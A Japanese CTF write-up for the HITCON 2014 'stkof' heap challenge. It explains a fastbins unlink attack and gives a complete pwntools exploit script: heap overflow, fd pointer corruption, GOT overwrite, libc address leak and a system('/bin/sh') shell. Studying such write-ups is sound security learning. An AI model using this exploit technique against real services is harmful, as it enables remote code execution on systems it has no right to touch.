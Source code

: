 ```yaml
---
layout: post
alias: "/blog/2016/09/21/hitcon-ctf-2014-stkof/"
date: "2016-09-21T03:29:10+09:00"
tags: [ "ctf", "writeup", "pwn", "hitcon", "heap", "fastbins" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/hitcon-ctf-2014/stkof" ]
---
```


# HITCON CTF 2014: stkof


ちひろさんが[fastbinsで解いてた](http://pwn.hatenadiary.jp/entry/2016/09/20/002430)ので解いた。
fastbinsは始めて。
fastbins unlink attackに関してはkatagaitaiの資料が便利だった: <http://www.slideshare.net/bata_24/katagaitai-ctf-1-57598200>。

mallocされたpointerのlistがあるのでfastbinsを使わなくてもできるはず。こちらは先日のASISで既に使っている: <https://kimiyuki.net/blog/2016/09/12/asis-ctf-finals-2016-car-market/>。

## solution

無制限のheap buffer overflowがあるので適当にする問題。
64bitだし構造的にrevが楽なのでありがたい。

### fastbins unlink attack

1.  `malloc`するchunkの(内部の)大きさは統一しておく。これが異なると異なるfastbinsに登録されるため。
2.  いくらか`malloc`しひとつ`free`して、これをarena内のfastbinsのlistに登録させる。
3.  fastbinsに載せたchunkのmetadataを書き換える。
    -   その`fd`を別の位置に向ける。
    -   この時点では何も制約はない。
4.  `fd`の指す位置$+8$、その`size` fieldにあたる位置をchunkのsizeにする。
5.  `malloc`する。
    -   この時点でその結果である`p = malloc(size) == q+16`に対し`q->fd->size == size`のcheckが存在する。
    -   この`q->fd`がfastbinsに登録される。
6.  再度`malloc`すると、先の`q->fd`がその結果として返される。

この後いくらか`malloc`を呼んでも問題ないようだ。

## implementation

ubuntu 16.04環境で解いた。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='localhost')
parser.add_argument('port', nargs='?', default=8000, type=int)
args = parser.parse_args()
context.log_level = 'debug'
p = remote(args.host, args.port)

def malloc(l):
    p.sendline(str(1))
    p.sendline(str(l))
    x = int(p.recvline())
    assert p.recvline().strip() == 'OK'
    return x
def fread(x, s):
    p.sendline(str(2))
    p.sendline(str(x))
    p.sendline(str(len(s)))
    p.send(s)
    assert p.recvline().strip() == 'OK'
def free(x):
    p.sendline(str(3))
    p.sendline(str(x))
    assert p.recvline().strip() == 'OK'
def strlen(x, ok=True):
    p.sendline(str(4))
    p.sendline(str(x))
    if ok:
        return p.recvuntil('OK\n', drop=True)

elf = ELF('./stkof')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
g_cnt = 0x602100
g_list = 0x602140

prev_size = 0x0
size = 0x8
fd = 0x10
bk = 0x18
PREV_INUSE = 1

# fastbins unlink attack
chunk_size = 0x20 # this is ok if 0x30, 0x40, etc
n = chunk_size
for i in range(n):  # set g_cnt = n = chunk_size
    malloc(chunk_size - size)
free(n)
payload = ''
payload += 'A' * (chunk_size - size - 0x8)
payload += 'A' * 0x8 # prev_size (used)
payload += p64(0x20) # size, setting PREV_INUSE is allowd
payload += p64(g_cnt - size) # fd
fread(n-1, payload)
malloc(chunk_size - size)
malloc(chunk_size - size) # this call returns (g_cnt + size)

# got overwrite
payload = ''
payload += 'A' * ((g_list+8) - (g_cnt+size))
payload += p64(elf.got['strlen'])
payload += p64(elf.got['__libc_start_main'])
fread(n+2, payload)
fread(1, p64(elf.plt['printf']))  # overwrite the got.strlen with plt.printf

# leak libc address
s = strlen(2)
assert s.endswith('...\n')
libc_start_main = u64(s[: -4].ljust(8, '\0'))
log.info('__libc_start_main: %#x', libc_start_main)
libc_base = libc_start_main - libc.symbols['__libc_start_main']
log.info('libc base: %#x', libc_base)

# system('/bin/sh')
fread(1, p64(libc_base + libc.symbols['system']))  # overflow the got.strlen with system
fread(2, '/bin/sh\0')
strlen(2, ok=False)

time.sleep(1)
p.sendline('id')
p.interactive()
```
